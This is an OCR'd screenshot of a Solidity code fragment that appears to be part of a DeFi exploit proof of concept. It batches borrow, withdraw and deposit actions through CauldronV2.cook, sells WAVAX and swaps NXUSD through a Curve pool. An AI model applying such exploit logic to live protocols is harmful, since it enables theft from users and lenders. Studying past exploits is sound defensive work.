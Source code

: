 │             true,                                                                                                                                                                                                                                    │
│             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │
│         CRVPool1.exchange_underlying(                                                                                                                                                                                                                │
│             metaPool,                                                                                                                                                                                                                                │
│             0,                                                                                                                                                                                                                                       │